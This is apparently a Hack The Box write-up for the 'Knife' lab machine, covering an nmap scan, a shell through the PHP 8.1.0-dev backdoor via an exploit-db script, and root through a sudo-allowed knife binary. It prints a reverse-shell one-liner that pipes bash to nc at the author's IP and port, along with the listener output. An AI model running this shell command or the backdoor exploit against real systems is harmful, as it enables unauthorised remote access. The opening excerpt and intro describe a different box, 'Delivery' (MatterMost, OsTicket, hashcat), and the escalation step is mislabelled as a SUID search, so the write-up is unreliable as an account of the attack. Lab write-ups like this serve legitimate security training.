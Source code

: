 ```yaml
---
layout: single
title: Knife - Hack The Box
excerpt: "Delivery is a quick and fun easy box where we have to create a MatterMost account and validate it by using automatic email accounts created by the OsTicket application. The admins on this platform have very poor security practices and put plaintext credentials in MatterMost. Once we get the initial shell with the creds from MatterMost we'll poke around MySQL and get a root password bcrypt hash. Using a hint left in the MatterMost channel about the password being a variation of PleaseSubscribe!, we'll use hashcat combined with rules to crack the password then get the root shell."
date: 23-12-2023
classes: wide
header:
  teaser: /assets/images/htb-writeup-knife/knife_logo.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - PHP
  - Web
  - RCE
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-knife/knife_logo.jpg)


Delivery is a quick and fun easy box where we have to create a MatterMost account and validate it by using automatic email accounts created by the OsTicket application. The admins on this platform have very poor security practices and put plaintext credentials in MatterMost. Once we get the initial shell with the creds from MatterMost we'll poke around MySQL and get a root password bcrypt hash. Using a hint left in the MatterMost channel about the password being a variation of PleaseSubscribe!, we'll use hashcat combined with rules to crack the password then get the root shell.


## Portscan

The scan shows that we have port 22 and port 80 open with an apache  web server 

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-23 19:04 EST
Nmap scan report for 10.10.10.242
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.23 seconds

                                                        
```

## Website

I found using wappalyzer that the website is using PHP version 8.1.0

![](../assets/images/htb-writeup-knife/web-wappalyzer.png)

I re-checked the headers with burpsuite and discovered that the page was using this specific version PHP 8.1.0-dev. 

![](../assets/images/htb-writeup-knife/web-burpsuite.png)


Doing some research we know that this PHP version was released with a backdoor. This version let you execute code by sending the User-Agentt header. 

![](../assets/images/htb-writeup-knife/web-google.png)

![](../assets/images/htb-writeup-knife/web-exploit-db.png)

## Exploit

Using the script i´ve found in exploitdb i´ve got an non stable shell in the server. 

```
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ ls    
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
```

To get an interactive shell i set up a listener in my machine running on port 4444 and used a reverse shell comand in the server. 

#### Remote shell execution 
```
└─$ python 49933.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.71 4443 >/tmp/f

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>504 Gateway Timeout</title>
</head><body>
<h1>Gateway Timeout</h1>
<p>The gateway did not receive a timely response
from the upstream server or application.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 10.10.10.242 Port 80</address>
</body></html>
```

#### Listener and user flag
```
└─$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.10.10.242] 38728
bash: cannot set terminal process group (1018): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ cd /home/james
```
![](../assets/images/htb-writeup-knife/web-user-txt.png)


## Privilege Escalation

A common way to get privileges in a machine is by searching SUID binaries, which can be executed with the privileges of an owner or group, this can help us to get a privileged shell. 
```
james@knife:/$ sudo -l     
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Ive look for the knife binary that we can run it as root and found that can help us to get the root shell.(https://gtfobins.github.io/)


![](../assets/images/htb-writeup-knife/web-gtfobins.png)

And we have the root flag 

![](../assets/images/htb-writeup-knife/web-root-txt.png)